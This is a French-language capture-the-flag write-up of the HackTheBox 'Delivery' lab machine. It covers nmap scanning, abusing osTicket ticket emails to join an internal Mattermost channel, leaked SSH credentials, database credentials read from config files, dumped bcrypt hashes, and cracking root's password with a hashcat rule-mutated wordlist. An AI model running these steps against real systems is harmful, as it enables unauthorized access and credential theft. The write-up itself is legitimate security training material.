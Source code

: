 ```yaml
---
title: HTB | Delivery
description: Delivery is an easy difficulty Linux machine that features the support ticketing system osTicket where it is possible by using a technique called TicketTrick, a non-authenticated user to be granted with access to a temporary company email. This "feature" permits the registration at MatterMost and the join of internal team channel. It is revealed through that channel that users have been using same password variant "PleaseSubscribe!" for internal access. In channel it is also disclosed the credentials for the mail user which can give the initial foothold to the system. While enumerating the file system we come across the mattermost configuration file which reveals MySQL database credentials. By having access to the database a password hash can be extracted from Users table and crack it using the "PleaseSubscribe!" pattern. After cracking the hash it is possible to login as user root.
slug: delivery-htb
date: 2025-02-24 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Delivery cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Delivery</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.222</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~/htb/Delivery]
└─$ nmap -sC -sV -An -p- -T4 -vvv 10.10.10.222
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCq549E025Q9FR27LDR6WZRQ52ikKjKUQLmE9ndEKjB0i1qOoL+WzkvqTdqEU6fFW6AqUIdSEd7GMNSMOk66otFgSoerK6MmH5IZjy4JqMoNVPDdWfmEiagBlG3H7IZ7yAO8gcg0RRrIQjE7XTMV09GmxEUtjojoLoqudUvbUi8COHCO6baVmyjZRlXRCQ6qTKIxRZbUAo0GOY8bYmf9sMLf70w6u/xbE2EYDFH+w60ES2K906x7lyfEPe73NfAIEhHNL8DBAUfQWzQjVjYNOLqGp/WdlKA1RLAOklpIdJQ9iehsH0q6nqjeTUv47mIHUiqaM+vlkCEAN3AAQH5mB/1
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAiAKnk2lw0GxzzqMXNsPQ1bTk35WwxCa3ED5H34T1yYMiXnRlfssJwso60D34/IM8vYXH0rznR9tHvjdN7R3hY=
|   256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEV5D6eYjySqfhW4l4IF1SZkZHxIRihnY6Mn6D8mLEW7
80/tcp   open  http    syn-ack ttl 63 nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Welcome
8065/tcp open  unknown syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Fri, 21 Feb 2025 11:56:08 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: 518yfkngnbbmtm9xgi7thkpkdr
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Fri, 21 Feb 2025 12:00:01 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Fri, 21 Feb 2025 12:00:02 GMT
|_    Content-Length: 0
```

## Foothold

### Mattermost / helpdesk.delivery.htb
On peut poster des tickets. Lorsqu'on poste un ticket on nous donne un numero et une email auxquelle on peut ecrire par exemple:
1239870@delivery.htb

On a aussi un serveur "Mattermost" avec une page de login sur lequel on peut créer un compte avec l'email:
1239870@delivery.htb

On nous demande une confirmation. On recoit cette email... directement sur le status du ticket crée précédemment !
```bash
---- Registration Successful ---- Please activate your email by going to: http://delivery.htb:8065/do_verify_email?token=49opc49pbwfahgew54koaa699uawqjjxt3xpanuwpte3jgf6etkczaprg8487und&email=1568729%40delivery.htb 
```

### Internal Channel
On obtient un accès a la plateforme après avoir cliqué sur le lien de confirmation. On rejoint l'équipe "internal" qui donnne accès à un channel internal avec des messages !
```bash
root
9:29 AM

@developers Please update theme to the OSTicket before we go live.  Credentials to the server are maildeliverer:Youve_G0t_Mail! 
9:30 AM

Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"
root
10:58 AM!

PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```
maildeliverer:Youve_G0t_Mail! 

### maildeliver account: user flag
Il suffit de se connecter en ssh avec les creds de "maildeliver" !
```bash
┌──(kali㉿kali)-[~/htb/Delivery]
└─$ ssh maildeliverer@delivery.htb
maildeliverer@delivery.htb's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Feb 23 17:28:33 2025 from 10.10.14.3
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ cat user.txt 
fe3d.....c5aa
```

## Privilege Escalation

### DB password
On trouve un fichier avec des creds pour se connecter a la base de données mysql (port 3306):
```bash
maildeliverer@Delivery:/var/www/osticket$ cat upload/include/ost-config.php
<?php
/*********************************************************************
    ost-config.php

...

## Database Options
## ---------------------------------------------------
## Mysql Login info
define('DBTYPE','mysql');
define('DBHOST','localhost');
define('DBNAME','osticket');
define('DBUSER','ost_user');
define('DBPASS','!H3lpD3sk123!');
```

```bash
MariaDB [osticket]> select username,firstname,lastname,passwd,email from ost_staff;
+---------------+-----------+----------+--------------------------------------------------------------+----------------------------+
| username      | firstname | lastname | passwd                                                       | email                      |
+---------------+-----------+----------+--------------------------------------------------------------+----------------------------+
| maildeliverer | Delivery  | Person   | $2a$08$VlccTgoFaxEaGJnZtWwJBOf2EqMW5L1ZLA72QoQN/TrrOJt9mFGcy | maildeliverer@delivery.htb |
+---------------+-----------+----------+--------------------------------------------------------------+----------------------------+
```
On trouve bien qu'il s'agit du même mot de passe qu'en ssh :

```bash
$2a$08$VlccTgoFaxEaGJnZtWwJBOf2EqMW5L1ZLA72QoQN/TrrOJt9mFGcy:Youve_G0t_Mail!
                                                          
Session..........: hashcat
Status...........: Cracked
```
La base de données mysql est donc une fausse piste, ce n'est pas le hash qui nous intéresse

### Mattermost config
En cherchant un peu on trouve le fichier de config de mattermost:
```bash
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json | grep user
        "TeammateNameDisplay": "username",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```
On a donc une nouvelle base de donnée : mattermost
et de nouveaux creds: `mmuser:Crack_The_MM_Admin_PW`

### Récupération des hachages
On trouve tous les hash de password pour mattermost cette fois, ce qui est nettement plus intéressant à première vu:

```bash
MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| helloguys                        | $2a$10$nX8mrkBf3qoX5hnoxZKg..9SzAx.oVvfCGelMzzebV6Oa2HI8eq0K |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| aaaaaa                           | $2a$10$J1d0c.sHFogqV5LoR72JXeFGTQAaAGRVmZJRX1WgyHq/VDiI55..W |
+----------------------------------+--------------------------------------------------------------+
```
### Hashcat best rules - creating password list
On crée une nouvelle liste basée sur le mot clé 'PleaseSubscribe!' comme préciser sur le forum, à l'aide des regles de mutation de mot de passe de hashcat :
```bash
$ echo -e 'PleaseSubscribe!' > base_words.txt
$ hashcat --stdout base_words.txt -r /usr/share/hashcat/rules/best64.rule > mutated_wordlist.txt
```

Il ne reste plus qu'a bruteforcer les hachages avec la liste générée :
```bash
$ hashcat -m 3200 hash.txt ./mutated_wordlist.txt
hashcat (v6.2.5) starting

...

Dictionary cache hit:
* Filename..: ./mutated_wordlist.txt
* Passwords.: 77
* Bytes.....: 1177
* Keyspace..: 77

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```

### root flag
Il ne reste plus qu'a se connecter avec le mot de passe :
```bash
maildeliverer@Delivery:~$ su - root
Password: 
root@Delivery:~# cat /root/root.txt
eb84.....c688
```
